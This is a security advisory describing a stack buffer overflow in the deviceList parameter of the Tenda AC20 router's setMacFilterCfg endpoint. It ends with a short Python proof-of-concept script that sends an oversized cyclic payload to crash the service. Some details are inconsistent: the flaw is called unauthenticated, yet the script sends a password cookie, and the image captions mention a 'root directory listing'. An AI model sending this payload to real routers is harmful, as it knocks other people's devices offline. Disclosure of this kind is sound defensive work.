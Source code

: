 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) setMacFilterCfg

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_46A2AC` function, which processes the `deviceList` input with unsafe string operations lacking bounds checking, enabling stack corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/setMacFilterCfg` (functions `formSetMacFilterCfg` and `sub_46A2AC`)

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the `formSetMacFilterCfg` function, which handles HTTP POST requests to the `/goform/setMacFilterCfg` endpoint. The `deviceList` parameter is retrieved via `websGetVar` and passed to the `sub_46A2AC` function for processing.

Analysis of the code indicates that `sub_46A2AC` processes the `deviceList` input, potentially using unsafe string operations (e.g., `strcpy`) to copy data from `deviceList` into a fixed-size stack buffer. When `deviceList` contains a `\r` (carriage return) followed by an overly long payload, the portion after `\r` is copied without validating its length against the buffer size. This causes the stack buffer to overflow, overwriting adjacent memory (including return addresses, saved registers, or other critical data).

This vulnerability allows attackers to:

![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)

*   Cause a denial of service (DoS) by crashing the router’s web management service.

*   Achieve remote code execution (RCE) by crafting a malicious payload with ROP gadgets to control program flow.

## PoC: Python Exploit Script


```
from pwn import \*
import requests
payload = cyclic(1000)
url = "http://192.168.31.149/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
